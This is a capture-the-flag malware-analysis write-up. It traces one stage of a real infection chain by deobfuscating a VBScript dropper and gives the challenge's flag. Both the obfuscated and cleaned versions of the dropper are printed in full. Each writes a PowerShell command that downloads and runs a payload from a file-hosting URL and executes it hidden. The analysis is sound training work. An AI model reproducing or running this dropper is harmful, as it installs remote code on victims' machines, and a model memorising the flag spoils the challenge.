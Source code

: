 # InfeXion 2/4 

### Category

Reverse

### Description

A script named `qk7kvg.VBS` appears to have been executed on the victim's machine. Find the next step in the infection chain!

**Warning : This series of challenges contains real world malware. Do not execute it on your host, use a VM !!**

The flag corresponds to the URL and the Windows path of the downloaded file, e.g. `Hero{https://dropbox.com/file/xyz|C:\Windows\Temp\malware.exe}`.

Format : Hero{URL|FULL\_PATH}<br>
Author : xanhacks

### Write Up

From the previous step, we know that the file at `https://files.catbox.moe/qk7kvg.VBS` will be executed.

Here is the content of the file:

```vbscript
On Error Resume Next

Dim fsdffssfsdfsdffsf,ryryytryryyryrytryyrtyryry,cvbcvbcbcvbvvcv101010101

cvbcvbcbcvbvvcv101010101 = "Invoke-Expression((n`e`W`-Obj`E`c`T (('N'+'e'+'t'+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+'.'+'W'+'eb'+'c'+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+'li'+'en'+'t'))).(('D'+'o'+'w'+'n'+'l'+'o'+'a'+'d'+'s'+'tri'+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+''+'n'+'g')).InVokE((('https://files.catbox.moe/vidyud.jpg'))))"

Set F = CreateObject("Scripting.FileSystemObject")
Set File = F.CreateTextFile("C:\ProgramData\rrrrrrrr.ps1",True)
File.Write cvbcvbcbcvbvvcv101010101
File.Close

Set fsdffssfsdfsdffsf = CreateObject("wscript.shell")
ryryytryryyryrytryyrtyryry = chr(80) +"ow" & "ershell -executionpolicy remotesigned -File ""C:\ProgramData\rrrrrrrr.ps1"""

fsdffssfsdfsdffsf.Run ryryytryryyryrytryyrtyryry,0
```

We can easily deobfuscate it and rename variables to obtain a more readable format:

```vbscript
On Error Resume Next

Dim shellObj,cmdStr,powershellStr

powershellStr = "(New-Object Net.Webclient).DownloadString("https://files.catbox.moe/vidyud.jpg")"

Set F = CreateObject("Scripting.FileSystemObject")
Set File = F.CreateTextFile("C:\ProgramData\rrrrrrrr.ps1",True)
File.Write powershellStr
File.Close

Set shellObj = CreateObject("wscript.shell")
cmdStr = "powershell -executionpolicy remotesigned -File 'C:\ProgramData\rrrrrrrr.ps1'"

shellObj.Run cmdStr,0
```

This VBScript file will download a Powershell script from `https://files.catbox.moe/vidyud.jpg`, save it at `C:\ProgramData\rrrrrrrr.ps1'` and execute it. 

### Flag

**Hero{https://files.catbox.moe/vidyud.jpg|C:\ProgramData\rrrrrrrr.ps1}**

